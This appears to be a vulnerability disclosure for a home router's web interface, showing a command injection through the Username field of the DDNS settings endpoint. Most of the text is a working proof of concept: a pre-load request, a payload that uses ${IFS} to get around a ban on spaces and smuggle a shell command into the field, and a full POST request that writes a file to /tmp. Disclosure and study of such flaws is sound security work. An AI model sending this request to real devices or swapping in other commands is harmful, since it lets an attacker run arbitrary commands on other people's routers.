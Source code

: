 All inputs i tested besides the `username` and `password` fields for the `/common_page/Ddns_lua.lua` endpoint are sanitized. I also found out that using spaces breaks the execution of the payload, but other than that it is easy to inject and issue arbitrary commands.

Necessary pre-load request:
```
GET /getpage.lua?pid=123&nextpage=Internet_Ddns_t.lp&Menu3Location=0 HTTP/1.1
Host: 192.168.1.254:80
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
```

Payload:
```
user;echo${IFS}pwned_msg>/tmp/pwned;echo${IFS}
```

PoC command injection request:
```
POST /common_page/Ddns_lua.lua HTTP/1.1
Host: 192.168.1.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 293
Origin: http://192.168.1.254
Connection: keep-alive
Referer: http://192.168.1.254/
Priority: u=0

IF_ACTION=Apply&_InstID=IGD.DDNC1&Service=dyndns&serviceInst=IGD.DDNSS1&Name=dyndns&Server=http%3A%2F%2Fwww.dyndns.com&Enable=1&serviceUrl=http%3A%2F%2Fwww.dyndns.com&Username=user;echo${IFS}pwned_msg>/tmp/pwned;echo${IFS}&Password=password&DomainName=hostname&Btn_cancel_Ddns=&Btn_apply_Ddns=
```

This is an example of a malicious username payload that creates a file named `pwned` at `/tmp` to prove the concept.

![DDNS Settings Request Console](./images/ddns_settings_req_console.png)
